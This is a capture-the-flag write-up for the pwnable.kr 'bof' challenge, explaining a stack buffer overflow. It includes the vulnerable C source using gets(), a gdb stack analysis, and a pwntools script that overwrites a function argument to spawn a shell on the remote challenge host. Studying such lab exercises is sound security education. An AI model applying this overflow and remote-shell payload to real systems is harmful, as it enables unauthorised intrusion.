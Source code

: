 # Pwnable.kr: Toddler's Bottle
## bof

This challenge requires us to perform a simple Buffer Overflow attack for overwriting function parameters stored inside of memory.

The C source code for challenge program is shown below, where the vulnerability is the *gets(overflowme)* call since *char * gets( char * )* has no array boundary checks and just reads *stdin* until the newline character.

*bof.c*
```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Using this vulnerability, we can overflow the stack and overwrite the default *0xdeadbeef* parameter to be *0xcafebabe* in order to bypass the *key == 0xcafebabe* check and get a shell. The final piece to the puzzle is figuring out how big our input should be to overflow the key parameter. I used *gdb* to analyse the stack just before the *key == 0xcafebabe* comparison check, by creating a breakpoint at the CMP machine instruction.

```
gdb-peda$ disas func
Dump of assembler code for function func:
   0x0000062c <+0>:	push   ebp
   0x0000062d <+1>:	mov    ebp,esp
   0x0000062f <+3>:	sub    esp,0x48
   0x00000632 <+6>:	mov    eax,gs:0x14
   0x00000638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:	xor    eax,eax
   0x0000063d <+17>:	mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:	call   0x645 <func+25>
   0x00000649 <+29>:	lea    eax,[ebp-0x2c]
   0x0000064c <+32>:	mov    DWORD PTR [esp],eax
   0x0000064f <+35>:	call   0x650 <func+36>
   **0x00000654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe**
   0x0000065b <+47>:	jne    0x66b <func+63>
   0x0000065d <+49>:	mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:	call   0x665 <func+57>
   0x00000669 <+61>:	jmp    0x677 <func+75>
   0x0000066b <+63>:	mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:	call   0x673 <func+71>
   0x00000677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:	je     0x688 <func+92>
   0x00000683 <+87>:	call   0x684 <func+88>
   0x00000688 <+92>:	leave  
   0x00000689 <+93>:	ret    
End of assembler dump.
gdb-peda$ b * func+40
```

Now we can just run the program inside *gdb* and give it an input of 'AAAAAAAA' until the breakpoint to help identify where the buffer is located on the stack. The character 'A' was randomly chosen, since it has an ascii value of 41 which can help us identify where the buffer is.

```
gdb-peda$ x/50wx $esp
0xffffd1c0:	0xffffd1dc	0xffffd2c4	0xf7fb2000	0xf7fb09e0
0xffffd1d0:	0x00000000	0xf7fb2000	0xf7ffc840	**0x41414141**
0xffffd1e0:	**0x41414141	0xf7fb2000	0x00000001	0x5655549d**
0xffffd1f0:	**0xf7fb23fc	0x00040000	0x56556ff4	0xfb2c4900**
0xffffd200:	**0x00400000	0x56556ff4	0xffffd228	0x5655569f**
0xffffd210:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
0xffffd220:	0xf7fb2000	0xf7fb2000	0x00000000	0xf7df97e1
0xffffd230:	0x00000001	0xffffd2c4	0xffffd2cc	0xffffd254
0xffffd240:	0x00000001	0x00000000	0xf7fb2000	0x00000000
0xffffd250:	0xf7ffd000	0x00000000	0xf7fb2000	0xf7fb2000
0xffffd260:	0x00000000	0x0122c2f7	0x41a9e4e7	0x00000000
0xffffd270:	0x00000000	0x00000000	0x00000001	0x56555530
0xffffd280:	0x00000000	0xf7fe9450
```

The buffer starts at the top *0x41414141* entry in the stack, which is located at 4*13=52 bytes above the *0xdeadbeef* parameter. Therefore our input needs to have 52 bytes before we overflow the parameter. However, since our target system has little-endian ordering we will have to reverse our overflowing value.

We can now write our *pwn* script so that we overflow the buffer by 52 bytes then overwrite the passed parameter to the *func* call.

*bof_pwn.py*
```
from pwn import *

payload = 52*'A' + '\xbe\xba\xfe\xca'
shell = remote('pwnable.kr',9000)
shell.send(payload)
shell.interactive()
'''

Hooray! We have just got our flag!

'''
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$
$ cat flag
daddy, I just pwned a buFFer :)
```

